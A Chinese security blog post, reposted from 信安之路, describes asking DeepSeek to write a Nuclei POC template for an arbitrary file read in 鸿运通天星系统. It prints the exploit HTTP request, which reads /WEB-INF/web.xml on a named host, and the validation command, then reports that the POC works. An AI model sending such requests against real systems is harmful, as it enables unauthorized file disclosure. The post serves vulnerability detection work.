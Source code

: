 #  让 Deepseek 帮我写 POC，又快又准确！   
 黑白之道   2025-02-17 01:58  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/3xxicXNlTXLicwgPqvK8QgwnCr09iaSllrsXJLMkThiaHibEntZKkJiaicEd4ibWQxyn3gtAWbyGqtHVb0qqsHFC9jW3oQ/640?wx_fmt=gif "")  
  
大家好，新年伊始，作为一个自由职业者，很多事情都需要自己一人完成，信安之路上线了 POC 管理系统，有大量漏洞需要转写成 Nuclei 所支持的 POC 模板文件，目前平台已收录四千多 POC 文件，还有不少 POC 未实现转换，如今 AI 的能力日渐强大，不依赖 AI 之力，作为科技从业者，也说不过去。  
  
在 AI 领域，Deepseek 的横空出世，引起不少社会关注，今天尝试使用其，帮我完成 POC 的编写，发现效果非常不错，只需要告知其目标，即可为我提供结果。  
  
以鸿运通天星系统的任意文件读取漏洞为例：  
```
下面是一个鸿运通天星系统的任意文件读取漏的数据包，如果返回内容中包括 <web-app 则认为该漏洞存在，请编写一个完整的模板：

GET /StandardApiAction_downLoad.action?path=/WEB-INF/web.xml HTTP/1.1
Host: tg.xazlsec.ru:8080
Content-Length: 0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
```  
  
Deepseek 直接将写好的 POC 告知，并进行了解释，如下：  
  
![image-20250213172028757](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfdA3tmFyfbMLanXPZV3iartg4ZdXeeIMPiaK0FFm5nk4FEYmQudohU3AYnFhDgPHL1R6IdRNhGBAQKQ/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
将结果中的 poc 保存到本地，先不看测试效果，先看看 poc 有没有语法错误，使用参数验证一下：  
> nuclei -duc -t hongyun-arbitrary-file-read.yaml -validate  
  
  
![image-20250213172141250](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfdA3tmFyfbMLanXPZV3iartgib4oVcDX5ibdu5wnkePVI8ady8Lp7SicJy69Zz1nibic6icljh3RvmjOuiahA/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
测试无语法错误，那么尝试是否可以正确发现漏洞：  
  
![image-20250213172309569](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfdA3tmFyfbMLanXPZV3iartg4sTH7Efnze0R9H5NhoNlNSrPWKoh8xyWV5G9C7GA1cZaO2IQpjQH2w/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
最终发现漏洞存在，poc 无任何问题，所以直接使用 Deepseek 进行 POC 编写无任何问题，后面可以通过调用 API 完成自动化，为其提供数据包和验证方式，即可完成 POC 的编写，真正做到借助 AI 之力，达到事半功倍的效果。  
  
> **文章来源：信安之路**  
  
  
  
黑白之道发布、转载的文章中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途及盈利等目的，否则后果自行承担！  
  
如侵权请私聊我们删文  
  
  
**END**  
  
  
